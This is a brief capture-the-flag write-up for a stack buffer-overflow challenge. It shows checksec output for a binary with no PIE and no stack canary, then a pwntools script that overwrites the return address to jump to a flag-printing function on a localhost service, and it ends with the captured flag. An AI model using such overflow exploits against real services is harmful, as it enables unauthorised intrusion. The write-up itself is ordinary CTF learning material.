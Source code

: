 ```yaml
---
created: 2025-03-02T08:49
updated: 2025-03-02T09:06
---
```


```bash
$ checksec --file=server
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified  Fortifiable     FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   No Symbols        No    0 server
```

- No PIE: Addresses are fixed.
- No Stack Canary: Free-for-all stack smashing.

We should be able to simply return to the print flag part.

```python
from pwn import *

r = remote('localhost', 21504)

offset = 88
flag_addr = 0x40167C

payload = b'A' * offset + p64(flag_addr)
r.sendline(payload)
r.interactive()
```

```flag
ATHACKCTF{0xdeadbeef_5t4ck_8453d_8uff3r_0v3rf10w}
```